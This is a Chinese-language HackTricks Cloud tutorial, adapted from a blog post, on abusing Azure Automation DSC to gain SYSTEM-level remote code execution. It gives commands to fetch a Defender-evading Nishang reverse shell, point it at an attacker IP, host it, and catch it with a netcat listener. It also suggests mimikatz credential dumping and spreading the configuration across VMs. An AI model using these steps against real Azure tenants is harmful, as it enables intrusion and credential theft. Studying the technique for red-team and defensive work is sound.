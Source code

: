# Az - State Configuration RCE

<details>

<summary><strong>从零到英雄学习AWS黑客技术</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想在**HackTricks中看到您的公司广告**或**下载HackTricks的PDF**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在**Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

**本文摘自** [**https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe**](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)

### 远程服务器 (C2) 基础设施准备 <a href="#f0fa" id="f0fa"></a>

我将在远程服务器“40.84.7.74”上托管一个精简版的Nishang Invoke-PowerShellTcp.ps1有效载荷，该服务器是Kali盒子。有效载荷名称将是“RevPS.ps1”。为了防止Nishang脚本因任何原因（也许您宁愿将文件丢到磁盘上）被Windows Defender删除，我在这里有一个轻量级版本，您可以使用它来绕过Defender：[https://github.com/nickpupp0/AzureDSCAbuse/blob/master/RevPS.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/RevPS.ps1)。这将由Kali盒子上的一个简单Python Simple Server托管。

### 步骤 1 — 创建文件 <a href="#89de" id="89de"></a>

我们需要创建另一个DSC配置文件。模板可以在这里下载：[https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1)。这个配置文件将使用我们之前使用的相同的文件写入功能。这次，内容包括从我们的远程服务器下载和执行有效载荷的代码。此外，我们正在使用_ComputerManagementDsc_模块中可用的计划任务功能。计划任务功能将是执行的关键角色，并稍后为我们提供SYSTEM权限。

我们还将下载一个脚本，用于将我们的配置发布到VM。它位于这里：[https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1)。

这些文件将作为模板。**您需要用您正在使用的变量名和参数填写**。这包括资源名称、文件路径和您正在使用的外部服务器/有效载荷名称。请参考代码中的注释。

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

### 步骤 2 — 压缩配置文件 <a href="#c2c2" id="c2c2"></a>

创建了两个文件后，我们将压缩**‘reverse\_shell\_config.ps1’** 文件，以便可以将其发送到存储帐户
```
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
### 步骤 3 — 设置存储上下文 & 上传 <a href="#bed9" id="bed9"></a>

我们将再次设置存储账户的上下文，我已经完成了这一步。我已经有了一个名为‘**azure-pentest**’的容器，所以我将在这里发布我的内容：
```
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
### 第4步 — 准备Kali盒子 <a href="#20fb" id="20fb"></a>

在我们的Kali盒子中，我们可以简单地使用_wget_来获取我们的PowerShell有效载荷。原始的反向Shell脚本位于这里：[https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1](https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1)。
```
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
<figure><img src="../../../../.gitbook/assets/image (8) (2).png" alt=""><figcaption></figcaption></figure>

我们需要通过添加我们的参数来编辑反向 shell 脚本，以便 Windows VM 知道一旦执行后要连接到哪里。在我的情况下，我添加了以下内容：
```
RevPShell -Reverse 40.84.7.73 443
```
### 步骤 5 — 发布配置文件 <a href="#9ad6" id="9ad6"></a>

现在我们将运行我们的配置文件。我将我的设置为发布到桌面以便更好地视觉效果，但它几乎可以发布到任何地方。几分钟后，我们将看到反向 shell 脚本已经发布！

### 步骤 6 — 托管有效载荷并设置监听器 <a href="#c55f" id="c55f"></a>

一旦我们发布配置，我们可以同时启动一个 Python SimpleHTTPServer 在 80 端口上托管有效载荷，以及一个 netcat 监听器以捕获连接：
```
sudo python -m SimpleHTTPServer 80sudo nc -nlvp 443
```
我们看到计划任务已经运行，我们的有效载荷被检索并以**SYSTEM**级别权限在内存中执行！

<figure><img src="../../../../.gitbook/assets/image (1) (3) (1).png" alt=""><figcaption></figcaption></figure>

### 总结 <a href="#1ec2" id="1ec2"></a>

这为我们打开了许多可能性。由于我们有一个以**SYSTEM**运行的shell，我们可以使用mimikatz转储凭据（取决于云资源的EDR成熟度，这可能有风险）。如果你转储了凭据，很有可能这些可以在不同资源中重复使用。最后，一个重要的收获是，你现在有能力潜在地将这个配置应用到多个VM上，而不仅限于一个VM。

就这样，我们的Azure Automation DSC冒险就结束了！我希望你玩得开心，学到了很多，并继续用你自己的创造力扩展。

<details>

<summary><strong>从零开始学习AWS黑客技术，成为英雄，就用</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果你想在**HackTricks中看到你的公司广告**或**下载HackTricks的PDF**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方的PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在**Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享你的黑客技巧。**

</details>
